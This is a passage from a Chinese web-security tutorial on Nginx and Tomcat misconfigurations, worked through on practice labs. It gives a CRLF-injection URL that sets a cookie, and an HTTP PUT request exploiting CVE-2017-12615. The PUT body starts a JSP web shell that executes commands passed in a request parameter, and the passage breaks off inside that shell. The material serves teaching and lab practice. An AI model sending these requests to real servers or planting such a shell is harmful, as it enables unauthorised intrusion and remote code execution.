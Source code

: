 这个URL中，%0a经过解码之后就是CR，%0d经过解码之后则为LF，%20解码之后对应为空格。所以Nginx在对$uri进行解码时，会将%0a%0d解码为CRLF，这会使得HTTP报文换行，然后发起Set-Cookie的请求， **这就是CRLF注入的效果**。

下面，我们一起看上述内容的实例。注意，这里靶场中的Nginx配置和上面图片中一致。

![图片](https://static001.geekbang.org/resource/image/3d/7f/3d231f6ebf2968f195e395f3dc5a097f.png?wh=1918x1206)

我们首先访问了127.0.0.1:8080服务，发现Nginx成功让页面跳转到HTTPS服务，并且页面中也没有cookie信息。其中这里页面显示无法访问此网站，这是因为靶场仅用来演示Nginx配置问题，并没有实际页面支撑，所以导致没有页面内容返回，但它对我们的测试不会造成影响。

![图片](https://static001.geekbang.org/resource/image/77/c3/77c15b32d03e1a536ba91da01a1cc6c3.png?wh=1812x1192)

接着，我们对这个Web应用发起攻击，对127.0.0.1:8080/%0a%0dSet-Cookie:%20a=test进行访问，结果发现页面同样跳转为HTTPS服务，不过此时多出了响应Cookie信息。 **这表明我们的CRLF注入成功，并且成功执行了Set-Cookie指令。**

现在，你已经了解了Nginx配置相关的安全问题，知道了它其实就是由CRLF注入导致的。接下来，让我们继续学习Tomcat中的安全配置问题吧。

### Tomcat配置安全问题

首先，我们来了解下Tomcat是什么？

Tomcat 服务器是一个免费的开放源代码的Web应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。实际上，Tomcat是Apache服务器的扩展，但运行时它是独立运行的，所以当你运行Tomcat时，它实际上是作为一个与Apache独立的进程单独运行。

在对它有了一定的了解之后，我们来对Tomcat做一些安全性分析。Tomcat中存在一个知名的安全配置问题，它就是CVE-2017-12615。具体的问题体现为，当Tomcat运行在Windows主机上，并且在conf/web.xml的配置文件中将DefaultServlet readonly设置为false，那么如果它启用了HTTP PUT请求方法，就会 **导致任意写文件的安全问题发生**。

接下来，让我们通过实战，加深一下对Tomcat配置安全问题的理解吧。

首先，登录谜团（mituan.zone）并选择【Tomcat专题：CVE-2017-12615】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。

![图片](https://static001.geekbang.org/resource/image/49/68/49a74009cf0a8162c0210990862df768.png?wh=1878x1313)

其次，我们要测试一下是否可以上传文件到服务器目录下。具体的实践方式为，使用BurpSuite拦截该网页，获取到如下报文：

```plain
GET / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

然后我们将它进行修改为如下报文，并进行发送。

```plain
PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<%
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
      int a = -1;
```